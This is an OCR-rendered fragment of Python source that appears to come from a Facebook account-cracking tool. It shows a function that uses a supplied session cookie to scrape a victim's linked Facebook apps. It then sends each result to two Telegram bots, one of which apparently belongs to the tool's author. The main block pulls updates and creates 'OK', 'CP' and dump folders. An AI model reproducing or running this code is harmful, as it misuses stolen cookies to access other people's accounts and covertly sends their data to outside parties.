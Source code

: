 
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def kilgame(kuki):
	session = requests.Session()
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			kil = ("\r%s  \033[0m              ➛ %s%s"%(P,H,game[i].replace("Ditambahkan pada"," Ditambahkan pada")))
			kil2 = 'التطبيقات المرتبطة : '+kil
			print(kil)
			requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(kil2))
			requests.get("https://api.telegram.org/bot"+str(mytoken)+"/sendMessage?chat_id="+str(myid)+"&text="+str(kil2))
	except AttributeError:
		print ("\r    %s\033[0m cookie invalid"%(M))
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ➛ %s"%(P,game[i].replace("Kedaluwarsa"," Kedaluwarsa")))
	except AttributeError:	 
		print ("\r    %s \033[0mcookie invalid"%(M))
if __name__=='__main__':
	try:os.system('git pull')
	except:pass
	try:os.mkdir('OK')
	except:pass
	try:os.mkdir('CP')
	except:pass
	try:os.mkdir('/sdcard/ALVINO-DUMP')
	except:pass
	try:os.system('touch .prox.txt')
	except:pass
	try:os.system('pkg install play-audio')
	except:pass
	try:os.system('clear')
	except:pass
	
	KilmenuViP()
